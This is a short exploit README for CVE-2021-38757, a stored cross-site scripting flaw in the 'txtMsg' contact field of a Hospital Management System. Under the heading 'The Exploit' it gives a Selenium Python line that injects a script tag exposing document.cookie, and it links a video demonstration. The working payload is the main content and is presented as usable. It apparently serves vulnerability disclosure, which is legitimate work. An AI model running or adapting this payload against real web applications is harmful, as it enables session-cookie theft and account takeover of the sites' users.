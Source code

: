 ## [CVE-2021-38757](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38757)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-38757/docs/Capture.PNG)
## Explot Title:
- `XSS-Stored PHPSESSID user PWNED on Hospital Management System Vulnerable parameter "txtMsg" on contact`
- - - Proof & Usage: https://streamable.com/6xue3b 
- - - The Exploit
```python
	browser.execute_script("document.querySelector('[name=\"txtMsg\"]').value=\"nu11secur1ty<script>alert(document.cookie)</script>\"")
```
